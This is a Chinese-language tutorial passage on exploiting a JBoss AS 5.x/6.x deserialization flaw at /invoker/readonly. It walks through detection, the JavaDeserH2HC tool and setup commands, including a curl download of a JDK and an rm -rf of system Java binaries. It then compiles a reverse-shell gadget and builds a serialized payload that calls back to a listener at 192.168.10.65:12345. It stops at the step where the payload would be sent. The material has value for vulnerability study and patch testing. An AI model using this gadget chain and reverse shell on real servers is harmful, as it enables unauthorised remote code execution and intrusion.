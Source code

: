     Jboss AS 5.x   
    Jboss AS 6.x  
    

#### 漏洞验证

访问/invoker/readonly，返回500（内部服务器错误——服务器端的CGI、ASP、JSP等程序发生错误），说明此页面存在反序列化漏洞

![](https://gitee.com/fuli009/images/raw/master/public/20210830200959.png)image-20210820144055866

#### 漏洞复现

下载漏洞利用工具：https://github.com/joaomatosf/JavaDeserH2HC

![](https://gitee.com/fuli009/images/raw/master/public/20210830201000.png)image-20210823090347902

编译（需要java环境）

    
    
    cd /opt  
    curl http://www.joaomatosf.com/rnp/java_files/jdk-8u20-linux-x64.tar.gz -o jdk-8u20-linux-x64.tar.gz  
    tar zxvf jdk-8u20-linux-x64.tar.gz  
    rm -rf /usr/bin/java*  
    ln -s /opt/jdk1.8.0_20/bin/j* /usr/bin  
    javac -version  
    java -version  
    

这里我已经安装好

![](https://gitee.com/fuli009/images/raw/master/public/20210830201001.png)image-20210820144519927

开启监听

![](https://gitee.com/fuli009/images/raw/master/public/20210830201002.png)image-20210820144803249

选择一个Gadget：ReverseShellCommonsCollectionsHashMap，编译并生成序列化数据；生成ReverseShellCommonsCollectionsHashMap.class；

    
    
    javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.ja  
    va  
    

![](https://gitee.com/fuli009/images/raw/master/public/20210830201003.png)image-20210823090310580

生成序列化数据ReverseShellCommonsCollectionsHashMap.ser

    
    
    java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap 192  
    .168.10.65:12345  
    

![](https://gitee.com/fuli009/images/raw/master/public/20210830201004.png)image-20210823090832540

利用ReverseShellCommonsCollectionsHashMap.ser，以二进制格式发送ReverseShellCommonsCollectionsHashMap.ser包
